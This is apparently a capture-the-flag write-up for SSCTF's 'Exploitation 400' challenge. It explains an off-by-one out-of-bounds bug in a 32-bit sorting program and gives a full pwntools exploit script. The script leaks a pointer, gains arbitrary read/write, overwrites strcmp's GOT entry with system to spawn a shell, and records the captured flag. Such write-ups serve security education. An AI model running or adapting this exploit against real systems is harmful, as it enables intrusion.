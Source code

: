 ```yaml
---
layout: post
title: SSCTF - Exploitation 400
category: [Exploitation]
tags: [Exploitation, SSCTF]
comments: true
---
```


**Points:** 400
**Solves:** 
**Category:** Exploitation
**Description:**

> [pwn1-fb39ccfa.zip]({{site.url}}/assets/pwn1-fb39ccfa.zip)

## Part 1, The Vulnerability

First of two Exploitation challenges in SSCTF, this package contains 32bit binary and the server's libc.so library.
I will not go over every detail but only the vulnerability and exploitation parts. On start the binary displays a menu.

{% highlight text %}
_
            +-------------------------+
            +  Welcome To SSCTF PWN1  +
            +   Have A Good Time :)   +
            +-------------------------+
_CMD_$ help

Command Menu:
	history : Show history
	reload  : Reload history
	clear   : Clear history
	sort    : Sort numbers
	exit    : Exit
_CMD_$

{% endhighlight %}

It's a integer sorting function. Choosing the sort option we are asked for the number of integers to sort and than a sub-menu appears.

{% highlight text %}
_CMD_$ sort
How many numbers do you want to sort: 5
1 of 5, Enter a number: 255
2 of 5, Enter a number: 255
3 of 5, Enter a number: 255
4 of 5, Enter a number: 255
5 of 5, Enter a number: 255

Sort Menu:
	1: Query number by index
	2: Update number by index
	3: Sort numbers
	7: Quit
Choose:
{% endhighlight %}

Each one of the sorting options are self-explanatory. The History option, shows us the previously sorted lists. The reload option moves us in the context of the chosen history list ID. To exploit this binary we are only interested in the sort (including the sort sub-menu) and reload.

Let's see how the sort function works. By issuing the above commands, we have created a struct with the following elements.

{% highlight text %}
struct list {
	int number_of_elements;
	int array[5];
};

0x804e038:	0x00000005	0x000000ff	0x000000ff	0x000000ff
0x804e048:	0x000000ff	0x000000ff	0x0804e038	0x00000000

{% endhighlight %} 

Next to it, there is another struct of 2 elements. It is used to keep track of the current active list. Right now only the first element has a value, which is a pointer to the beginning of our first list (remember that because it's going to be used for the exploitation part).

Just by playing around with the Sort Menu, we can notice a few interesting things. First, the main vulnerability which is accessing out of bound element because the indexes seem to start from 1 and not 0, so by accessing the 5th element, we are accessing array[5] which is the next struct. We also see that we can't access an index higher than the number of elements stored in list->number_of_elements.

{% highlight text %}
Sort Menu:
	1: Query number by index
	2: Update number by index
	3: Sort numbers
	7: Quit
Choose: 1
Query index: 5
[*L*] Query result: 134537272

Sort Menu:
	1: Query number by index
	2: Update number by index
	3: Sort numbers
	7: Quit
Choose: 1
Query index: 6
[*E*] Query failed!
{% endhighlight %}

The reload option takes list ID from the history, makes it as the current active list and moves us to the Sort Menu to perform some action on it. Behind the scenes however, the reload option takes the pointer that points to the beginning of the struct and uses it as a source for memcpy. It takes the first element and it does ((x + 1) << 2), it than uses the result as size for memcpy. The destination is just the next available space (not important in our case).

## Part 2, The Exploit

So, what do we know so far? We know we can read/write @ the pointer of the struct. We also know that we can use that pointer via the reload function to be the source of memcpy and thus change the current active list to have data based on what we are going to copy to the destination. I know it sounds a bit confusing but this is what we are going to do.

1. Leak the pointer to the struct
2. Change the pointer to a location where we control data (this will be in the current struct, just different offset)
3. Invoke reload so we copy the data we control into the new active list. This will allow us to control the first element in the new list, which is going to lift the indexing restrictions.
4. Now that our active sort list is with a controlled number_of_elements, we can reference any offset in the whole binary.
This is what gives us read/write to any address via the Sort Menu's Query and Update number by index.
5. Leak the address of strcmp
6. Change strcmp with system

Knowing the plan of action and what each step with allow us to do should of cleared things for you :).

## Final script

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

r = remote('pwn.lab.seclover.com', 11111)
#r = process(['./pwn1-fb39ccfa'])
#print util.proc.pidof(r)
#sys.stdin.read(1)

# Step 1 get address of struct
garbage = r.recv()
r.sendline("sort")			# Sort
r.sendline("1")				# only 1 element
r.sendline("1073741824")			# size for memcpy. ((0x40000000 + 1) << 2) == 4 bytes
r.sendline("3")				# Sort the list, this places the ptr at the end
r.sendline("1")				# Leak pointer
r.sendline("1")				# Out of bound array access
garbage =  r.recvuntil("Query result: ")
leak = r.recvline()
log.info("Leak: " + hex(int(leak)))


# Step 2, overwrite controlled ptr to point to the beginning of struct+4
# this will cause our first element (array[0] == 0x40000000) to be used
# as number_of_elements in the next active list when we reload
r.sendline("2")
r.sendline("1")					# Out of bound array array access again
r.sendline(str(int(leak) + 4))			# make ptr to struct to be ptr+4
r.sendline("7")					# Exit sub-menu

# Step 3, This makes a new active list with number_of_elements
# a copy from previous list's array[0]
r.sendline("reload")
r.sendline("0")

# Step 4, here reload entered us in Sort Menu
r.sendline("1")					# find index for strcmp
r.sendline(str( (0x10804d03c - (int(leak)+20)) / 4 ))	# Calc index for strcmp@got addr

# Step 5, leak address of strcmp@got
garbage = r.recvuntil("Query result:")
strcmp = r.recvline()
log.info("strcmp: " + hex( abs((int(strcmp) ^ 0xffffffff) + 1) ))

# Step 6, overwrite strcmp with system
r.sendline("2")
r.sendline(str( (0x10804d03c - (int(leak)+20)) / 4 ))
r.sendline(str( int(strcmp) - 0x3bfa0 )) # Local 0xf9940
r.sendline("7")

# Argument for the new system()
r.sendline("/bin/sh")

r.interactive()

# pwn400 flag - SSCTF{e8b381956eac817add74767b15c448e4}
{% endhighlight %}

* Hope you liked it :), to be continue in pwn600